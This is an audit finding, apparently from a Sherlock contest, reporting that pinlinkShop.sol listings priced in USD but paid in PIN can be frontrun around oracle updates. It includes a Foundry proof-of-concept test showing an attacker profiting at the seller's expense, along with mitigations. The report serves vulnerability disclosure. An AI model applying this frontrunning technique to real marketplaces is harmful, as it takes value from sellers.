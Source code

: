 Scrawny Blonde Seahorse

Medium

# Oracle updates are frontrunable, allowing an attacker to steal value from listings.

### Summary

Purchases in pinlinkShop.sol rely on an oracle to convert the price of the PIN token used to purchase an asset into the USD value that the asset is listed at. Because of this, open listings are subject to oracle pricing risk in the event of a rapid depreciation of the PIN price. If a large enough drop occurs in the span of one oracle update which is very plausible given the current volatility of PIN, an attacker can buy the listing at an inflated PIN price right before the update hits. This steals value from the asset seller.

### Root Cause

The choice to create listings with a USD value but pay for them with PIN is what allows this to become an issue. Every single time an oracle update is made, there is opportunity for the pricing differential between the current oracle price, the updated oracle price, and the current fair value of PIN to create an arbitrage at the expense of the lister. Since this is being deployed on Ethereum, it is trivial for an attacker to bundle purchases with an oracle update and take advantage of this.

Listings use a USD price but are paid for in PIN:
[listing struct](https://github.com/sherlock-audit/2025-03-pinlink-rwa-tokenized-depin-marketplace/blob/34cd70b66f1dbe191bd6f946e42f58eef4a00166/marketplace-contracts/src/marketplaces/pinlinkShop.sol#L27)
```solidity
struct Listing {
    ...
    // price per asset fraction in usd with 18 decimals
    uint256 usdPricePerFraction;
    ...
}
```
[purchase price conversion](https://github.com/sherlock-audit/2025-03-pinlink-rwa-tokenized-depin-marketplace/blob/34cd70b66f1dbe191bd6f946e42f58eef4a00166/marketplace-contracts/src/marketplaces/pinlinkShop.sol#L313-L314)
```solidity
    function purchase(bytes32 listingId, uint256 fractionsAmount, uint256 maxTotalPinAmount) external {
    ...
        uint256 totalUsdPayment = listing.usdPricePerFraction * fractionsAmount;
        uint256 totalPinPayment = IPinlinkOracle(oracle).convertFromUsd(address(PIN), totalUsdPayment);
```

### Internal Pre-conditions

1. There needs to be a listing for an asset at reasonable price

### External Pre-conditions

1. The oracle needs to have a pending price update that decreases the PIN price by more than the current listing fee

### Attack Path

1. The attacker sees the pending price update
2. The attacker frontruns the update with a purchase

### Impact

The listing owner sells the asset for an inflated PIN price, the loss of value is captured by the attacker.

If there is a secondary market for the ERC1155 tokens there is the potential for this to be an atomic arbitrage at the asset lister's expense. For example, if a token is selling for $10 on the pinlink shop and a bid for the same asset exists somewhere else for $9.50, the attacker could make profit in the span of a single mev bundle.

If that is not the case and the ERC1155 can only be sold in plinkShop, then the attacker takes on some inventory risk, but could relist the asset on the market for the exact same USD price as the original listing and walk away with a profit once someone purchases it.

The profit that an attacker makes in this case is equal to the price differential of the oracle updates minus listing fees provided the attacker can offload the asset at the new PIN price.

### PoC

Please put this test in purchase.t.sol in the StakingShop_Purchase_Tests contract:
```solidity
    function test_mevable_oracle_update() public {
        // oracle updates are frontrunable
        // this allows sophisticated users to steal value from users with active listings

        // this test suite starts with a PIN price set to 0.95 dollars
        // lets say that an oracle update setting it to 0.80 dollars is found in the mempool
        // so long as a listing is fairly priced, makes sense for an attacker to buy it,
        // as the denomination of the listing is artificially overvalued prior the the update
        // this steals value from the lister and gives it to the buyer

        // buy prior to price update
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        deal(address(PIN), attacker, 1_000_000e18);
        uint256 startingBalance = PIN.balanceOf(attacker);
        PIN.approve(address(pshop), 1_000_000e18);
        pshop.purchase(listingId0, 40, 1_000_000e18);

        // perform price update
        vm.startPrank(admin);
        oracle.updateTokenPrice(0.80 ether);

        // let's say someone buys the asset off of the attacker at the new lower PIN price
        // attacker lists asset with same price as original seller
        vm.startPrank(attacker);
        bytes32 relistId = pshop.list(address(fractions), asset1, 40, 8000e18, block.timestamp + 12 days);

        // the second buyer purchases for the same listing price at the new PIN price
        address secondBuyer = makeAddr("secondBuyer");
        vm.startPrank(secondBuyer);
        deal(address(PIN), secondBuyer, 1_000_000e18);
        PIN.approve(address(pshop), 1_000_000e18);
        pshop.purchase(relistId, 40, 1_000_000e18);

        // attacker ends up with a profit
        uint256 endingBalance = PIN.balanceOf(attacker);
        assertEq(startingBalance, 1000000000000000000000000);
        assertEq(endingBalance,   1043157894736842105263158);
    }
```

### Mitigation

Consider not relying on anything dependent on an oracle, or perhaps blend the centralized oracle with a TWAP of the uniswap price. Relying on an oracle to price the asset used to purchase a listing opens up arbitrages at user expense when the price stair steps. Allowing users to list assets natively in PIN or USDC and to pay with the same currency bypasses this issue as well.